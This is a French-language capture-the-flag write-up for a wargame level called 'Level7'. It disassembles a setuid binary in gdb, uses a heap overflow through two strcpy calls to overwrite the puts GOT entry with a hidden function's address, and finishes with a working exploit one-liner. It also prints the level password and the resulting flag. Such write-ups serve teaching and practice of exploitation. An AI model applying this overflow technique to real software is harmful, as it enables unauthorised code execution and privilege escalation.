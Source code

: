 # Level7

> login:password -> *`level7:f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d`*
```
:~$ su level7
Password:f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
---

```
:~$ pwd
/home/user/level7
```

```
:~$ ls -la
total 17
dr-xr-x---+ 1 level7 level7   80 Mar  9  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level7 level7  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level7 level7 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level8 users  5648 Mar  9  2016 level7
-rw-r--r--+ 1 level7 level7   65 Sep 23  2015 .pass
-rw-r--r--  1 level7 level7  675 Apr  3  2012 .profile
```

Le Home contient un binaire `level7` :

```
:~$ ./level7
Segmentation fault (core dumped)

:~$ ./level7 test
Segmentation fault (core dumped)
```

Avec ou sans paramètre le binaire segfault.

```
:~$ gdb level7
...

(gdb) disas main
Dump of assembler code for function main:
   0x08048521 <+0>:	    push   %ebp
   0x08048522 <+1>:	    mov    %esp,%ebp
   0x08048524 <+3>:	    and    $0xfffffff0,%esp
   0x08048527 <+6>:	    sub    $0x20,%esp
   0x0804852a <+9>:	    movl   $0x8,(%esp)
   0x08048531 <+16>:	call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:	mov    %eax,0x1c(%esp)
   0x0804853a <+25>:	mov    0x1c(%esp),%eax
   0x0804853e <+29>:	movl   $0x1,(%eax)
   0x08048544 <+35>:	movl   $0x8,(%esp)
   0x0804854b <+42>:	call   0x80483f0 <malloc@plt>
   0x08048550 <+47>:	mov    %eax,%edx
   0x08048552 <+49>:	mov    0x1c(%esp),%eax
   0x08048556 <+53>:	mov    %edx,0x4(%eax)
   0x08048559 <+56>:	movl   $0x8,(%esp)
   0x08048560 <+63>:	call   0x80483f0 <malloc@plt>
   0x08048565 <+68>:	mov    %eax,0x18(%esp)
   0x08048569 <+72>:	mov    0x18(%esp),%eax
   0x0804856d <+76>:	movl   $0x2,(%eax)
   0x08048573 <+82>:	movl   $0x8,(%esp)
   0x0804857a <+89>:	call   0x80483f0 <malloc@plt>
   0x0804857f <+94>:	mov    %eax,%edx
   0x08048581 <+96>:	mov    0x18(%esp),%eax
   0x08048585 <+100>:	mov    %edx,0x4(%eax)
   0x08048588 <+103>:	mov    0xc(%ebp),%eax
   0x0804858b <+106>:	add    $0x4,%eax
   0x0804858e <+109>:	mov    (%eax),%eax
   0x08048590 <+111>:	mov    %eax,%edx
   0x08048592 <+113>:	mov    0x1c(%esp),%eax
   0x08048596 <+117>:	mov    0x4(%eax),%eax
   0x08048599 <+120>:	mov    %edx,0x4(%esp)
   0x0804859d <+124>:	mov    %eax,(%esp)
   0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>:	mov    0xc(%ebp),%eax
   0x080485a8 <+135>:	add    $0x8,%eax
   0x080485ab <+138>:	mov    (%eax),%eax
   0x080485ad <+140>:	mov    %eax,%edx
   0x080485af <+142>:	mov    0x18(%esp),%eax
   0x080485b3 <+146>:	mov    0x4(%eax),%eax
   0x080485b6 <+149>:	mov    %edx,0x4(%esp)
   0x080485ba <+153>:	mov    %eax,(%esp)
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:	mov    $0x80486e9,%edx
   0x080485c7 <+166>:	mov    $0x80486eb,%eax
   0x080485cc <+171>:	mov    %edx,0x4(%esp)
   0x080485d0 <+175>:	mov    %eax,(%esp)
   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:	mov    %eax,0x8(%esp)
   0x080485dc <+187>:	movl   $0x44,0x4(%esp)
   0x080485e4 <+195>:	movl   $0x8049960,(%esp)
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:	movl   $0x8048703,(%esp)
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
   0x080485fc <+219>:	mov    $0x0,%eax
   0x08048601 <+224>:	leave  
   0x08048602 <+225>:	ret    
End of assembler dump.
```

Le main appel plusieurs fonctions `malloc()`:
- (+16) de `0x8` (8)
- (+42) de `0x8` (8)
- (+63) de `0x8` (8)
- (+89) de `0x8` (8)

On y voit aussi l'utilisation de deux fonctions `strcpy()` qui attendent des arguments 1 et 2. Du coup je rajoute ce petit test, car le segfault est probablement provoque par le manque d'un 2e argument.

```
:~$ ./level7 test test
~~
```

Effectivement, cette fois le binaire ne segfault pas, mais affiche `~~`. On continue donc de voir ce que le binaire contient.

On voit l'utilisation d'une fonction `fopen()`, ainsi que d'une fonction `fgets()` contenu dans une variable globale `c`, mais ne fait rien avec.

Puis au final on voit l'utilisation de `puts()` qui est la fonction qui introduit les caracteres `~~` une fois que 2 arguments ont pu etre renseigne


```
(gdb) info functions
All defined functions:

Non-debugging symbols:
(...)
0x080483b0  printf@plt
(...)
0x080483c0  fgets@plt
(...)
0x080483d0  time@plt
(...)
0x080483e0  strcpy@plt
(...)
0x080483f0  malloc@plt
(...)
0x08048400  puts@plt
(...)
0x08048430  fopen@plt
(...)
0x080484f4  m
0x08048521  main
(...)

(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:	    push   %ebp
   0x080484f5 <+1>:	    mov    %esp,%ebp
   0x080484f7 <+3>:	    sub    $0x18,%esp
   0x080484fa <+6>:	    movl   $0x0,(%esp)
   0x08048501 <+13>:	call   0x80483d0 <time@plt>
   0x08048506 <+18>:	mov    $0x80486e0,%edx
   0x0804850b <+23>:	mov    %eax,0x8(%esp)
   0x0804850f <+27>:	movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:	mov    %edx,(%esp)
   0x0804851a <+38>:	call   0x80483b0 <printf@plt>
   0x0804851f <+43>:	leave  
   0x08048520 <+44>:	ret    
End of assembler dump.
```

On trouve egalement une fonction `m()` non appelee qui elle contient une fonction `time()` et `printf()`

Pour notre exploit, on va utiliser le 1er appel a la fonction `strcpy()` pour overwrite l'adresse du 2e. Ce qu'on veux c'est overwrite `puts()` pour acceder a la fonction `m()` a la place

```
:~$ ltrace ./level7 AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz0123456789AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZzAaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz0123456789AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz test2
__libc_start_main(0x8048521, 3, 0xbffff704, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                         = 0x0804a008
malloc(8)                                                         = 0x0804a018
malloc(8)                                                         = 0x0804a028
malloc(8)                                                         = 0x0804a038
strcpy(0x0804a018, "AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPp"...)         = 0x0804a018
strcpy(0x6c4c6b4b, "test2" <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++

```

On trouve un offset a **20**.

On va overflow le premier argument avec l'adresse de puts dans le GOT pour mettre ensuite l'adresse de `m()` dans le second. Pour ce faire on va chercher l'adresse de puts dans le GOT.

```
:~$ gdb level7
...

(gdb) disas main
(...)
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>

(gdb) disas 0x8048400
(...)
   0x08048400 <+0>:     jmp    *0x8049928

(gdb) x 0x8049928
   0x8049928 <puts@got.plt>:       0x08048406

```

On a donc:
- l'adresse de puts dans le GOT: `0x8049928` + un offset de 20 pour l'overflow
- l'adresse de `m()`: `0x080484f4`

Ce qui nous donne:

```
:~$ ./level7 $(python -c 'print "a" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```